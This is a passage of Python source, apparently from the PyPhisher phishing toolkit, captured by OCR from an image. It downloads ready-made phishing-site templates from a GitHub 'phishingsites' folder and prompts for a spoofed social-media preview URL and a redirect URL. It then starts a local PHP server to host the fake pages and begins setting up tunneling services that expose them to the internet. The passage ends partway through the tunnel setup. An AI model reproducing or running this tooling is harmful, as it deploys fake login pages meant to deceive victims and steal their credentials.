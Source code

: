         if not isdir(site):
            internet()
            delete("site.zip")
            download(f"https://github.com/KasRoudra/files/raw/main/phishingsites/{folder}.zip", "site.zip")
            extract("site.zip", site)
            remove("site.zip")
        copy(site, site_dir)
        if mode == "test":
            metaurl = ""
        else:
            metaurl = input(f"\n{ask}{bcyan}Enter shadow url {green}({blue}for social media preview{green}){bcyan}[{red}press enter to skip{bcyan}] : {green}")
        write_meta(metaurl)
        if url is not None:
            redirect_url = url
        else:
            if mode == "test":
                redirect_url = ""
            else:
                redirect_url = input(f"\n{ask}{bcyan}Enter redirection url{bcyan}[{red}press enter to skip{bcyan}] : {green}")
        write_redirect(redirect_url)
    server()

# Start server and tunneling
def server():
    global mode
    clear()
    # Termux requires hotspot in some android
    if termux:
        sprint(f"\n{info}If you haven't enabled hotspot, please enable it!")
        sleep(2)
    sprint(f"\n{info2}Initializing PHP server at localhost:{port}....")
    for logfile in [php_file, cf_file, lx_file, lhr_file]:
        delete(logfile)
        if not isfile(logfile):
            try:
                mknod(logfile)
            except:
                sprint(f"\n{error}Your terminal lacks file/folder permission! Fix it or run me from docker!")
                pexit()
    php_log = open(php_file, "w")
    cf_log = open(cf_file, "w")
    lx_log = open(lx_file, "w")
    lhr_log = open(lhr_file, "w")
    internet()
    bgtask(f"php -S {local_url}", stdout=php_log, stderr=php_log, cwd=site_dir)
    sleep(2)
    try:
        status_code = get(f"http://{local_url}").status_code
    except Exception as e:
        append(e, error_file)
        status_code = 400
    if status_code <= 400:
        sprint(f"\n{info}PHP Server has started successfully!")
    else:
        sprint(f"\n{error}PHP Error! Code: {status_code}")
        pexit()
    sprint(f"\n{info2}Initializing tunnelers at same address.....")
    internet()
    arguments = ""